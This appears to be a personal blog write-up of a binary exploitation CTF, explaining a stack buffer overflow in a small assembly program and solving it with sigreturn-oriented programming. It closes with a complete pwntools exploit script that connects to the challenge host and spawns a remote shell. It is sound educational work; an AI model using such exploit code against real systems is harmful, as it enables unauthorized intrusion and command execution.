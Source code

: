 ```yaml
---
shortDescription: Binary exploitation
image: /imgs/blog/0x650.png
pubDate: "2025-03-26T19:36:00Z"
---
```


# 0x650 CTF, part 2

[NSG650](https://github.com/NSG650), a friend of mine, is running a series of CTFs as a kind of entrance exam to his private server. I'm already in it, but for fun I decided to participate in them as well.

This second CTF is a binary exploitation CTF. He provided an [x86-64 Linux binary](/assets/0x650/s){target="\_blank" download="s"}, which is a simple program written in assembly.

I never participated in a binary exploitation CTF, so I thought this would be a very nice learning experience, on top of all of the theoretical knowledge I already gained from binging too many LiveOverflow videos. :P

Here's a rough disassembly of this program:

```asm
hello:
  sub rsp, 0x200
  xor rax, rax      ; read syscall
  xor rdi, rdi      ; standard input
  mov rsi, rsp
  mov edx, 0x400
  syscall
  mov rdx, rax
  mov eax, 0x1      ; write syscall
  mov edi, 0x1      ; standard output
  syscall
  add rsp, 0x200
  ret

_start:
  mov eax, 0x1
  mov edi, 0x1
  mov rsi, message  ; "Can you try to signal me to run "
  mov edx, 0x20
  syscall
  mov eax, 0x1
  mov rsi, shell    ; "/bin/sh"
  mov edx, 0x7
  syscall
  mov eax, 0x1
  mov rsi, end      ; " :)\n"
  mov edx, 0x4
  syscall
  call hello
  mov eax, 0x3c     ; exit syscall
  xor rdi, rdi
  syscall
```

So, what does this program do? Let's break it down into more digestible chunks.

First, it prints a message: `Can you try to signal me to run /bin/sh :)`. It does so by running three `write` syscalls, with the file descriptor (in the RDI register) set to 1, meaning standard output. Then, it calls the `hello` function, and exits.

The `hello` function reserves `0x200` bytes on the stack, then reads at most `0x400` bytes from standard input. It then echoes back however many characters it read, with the write syscall.

Right out of the gate, we can see that we can overflow the buffer. We read back `0x400` bytes into a buffer of `0x200`. We can overwrite the stack! We can also see that the string `"/bin/sh"` is a separate variable from everything else. This will be very useful later :)

So, I already knew what this was going to be. I would need to build some kind of a ROP-chain to execute `execve` and get shell execution, right? Except that, the code above is all that there is to it. There is no `execve` invocation, and the gadgets we do have are _very_ scarce, so it's hard to combine it all together.

I was stuck on this for a while, until NSG mentioned that you're supposed to use [Sigreturn-oriented programming](https://en.wikipedia.org/wiki/Sigreturn-oriented_programming) instead.

## So, what the fuck is `sigreturn`?

`sigreturn` is a system call (whose ID is `0xF` on x86-64 Linux systems) that pretty much nobody had heard of before (or at least I certainly haven't). It's used by your C library to implement signal handlers. Specifically, the `sigreturn` syscall marks a return from a signal handler, cleaning up its stack frame.

The signal handler stack frame contains some very interesting stuff, most importantly all of the CPU's registers, so they can be restored by the kernel at a later time.

`sigreturn` pops the entire signal handler stack frame off of the stack... which we control. So how can we use it to do our bidding?

## Our gadgets

We don't have a lot of gadgets at our disposal. We can't directly manipulate RAX, so we can't just `pop rax`, write `0xF`, then `syscall` our way to happiness.

I was stuck here for a while as well. How can we control the value of RAX, seemingly without any way of doing so? The only thing that I could see modifying RAX is the `read` syscall, but that was getting modified soon after to call `write`, right?

What I completely forgot at the time is that `write` returns the number of bytes it read. And the return value of syscalls lives in RAX!

## Final plan of action

So, with all that in mind, here's our final plan of action. After filling the stack with `0x200` bytes of random stuff, we will call the `hello` function again, write 15 bytes of random stuff, then get a `syscall` gadget to execute `sigreturn`.

We will tell `sigreturn` to place us at a syscall gadget yet again, but with RAX set to `0x3B` (`execve`) and RDI set to the address of the shell string.

Here's the first payload that we will send to it:

<table>
  <tr><td>"A" repeating 0x200 times</td></tr>
  <tr><td>address to <code>hello</code></td></tr>
  <tr><td>address to the <code>syscall</code> gadget</td></tr>
  <tr><td>signal handler stack frame</td></tr>
</table>

Pretty simple, right? Here's what will happen under the hood:

1. The `hello` function will read our payload, and add `0x200` back to RSP, essentially freeing those 512 bytes, before returning.
2. We've overwritten the return pointer with another one pointing to `hello` again, in turn executing it once more. We write 15 "A"s again, which will put the necessary `0xF` value into RAX, before returning once more.
3. We're now calling the `sigreturn` syscall, which will execute an `execve` with the shell.

After all of this, we get a shell! Now, it's as easy as simply running `cat flag`.

## Final exploit code

Here's the exploit code I wrote. It uses the `pwntools` Python package, which I never used before this.

```py
from pwn import *
context.clear()
context.arch = "amd64"
p = remote('amongus727.jumpingcrab.com', 5000)

HELLO_FUNC = 0x401000
SYSCALL = 0x401024
SHELL = 0x402021

frame = SigreturnFrame()
frame.rax = 0x3b # execve
frame.rdi = SHELL
frame.rsi = 0
frame.rdx = 0
frame.rip = SYSCALL

payload = b'A' * 0x200
payload += p64(HELLO_FUNC)
payload += p64(SYSCALL)
payload += bytes(frame)

p.sendline(payload)
p.recv(len(payload))
p.send(b'a' * 0xf)
p.recv(0xf)
p.interactive()
```

And here it is in action, giving us the flag!

![A screenshot showing the final exploit code on the left and a terminal running it on the right, with the flag on screen](/imgs/blog/0x650-result.png)

## Conclusion

In conclusion, this was a pretty hard CTF to wrap my head around, especially as my first ever binary exploitation CTF, although the solution looks simple and elegant, so I can't complain. It was a very fun learning experience!
